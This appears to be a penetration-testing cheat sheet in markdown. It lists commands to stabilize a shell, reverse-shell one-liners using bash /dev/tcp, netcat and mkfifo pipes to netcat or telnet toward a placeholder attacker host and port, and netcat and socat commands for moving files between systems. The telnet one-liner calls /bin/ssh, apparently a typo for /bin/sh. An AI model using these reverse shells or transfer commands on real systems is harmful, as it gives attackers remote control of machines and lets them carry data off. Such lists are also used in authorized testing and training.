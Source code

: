 # Shells

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

## Reverse shells

### Bash

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

### Netcat

```text
nc -e /bin/sh <LHOST> <LPORT>
nc -c /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y
```

### Telnet

```text
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```


# Transfering files

### Netcat

Netcat is the easiest way to transfer files between Linux systems.

```text
# source
nc -nv <ip> <port> < <file>

# destination
nc -lvnp <port> > <file>
```

### Socat

You can also use socat if you want to use encrypted tunnel.

```text
# source
socat TCP4-LISTEN:<port>,fork file:<src_path>

# destination
socat TCP4:<ip>:<port> file:<dst_path>,create
```

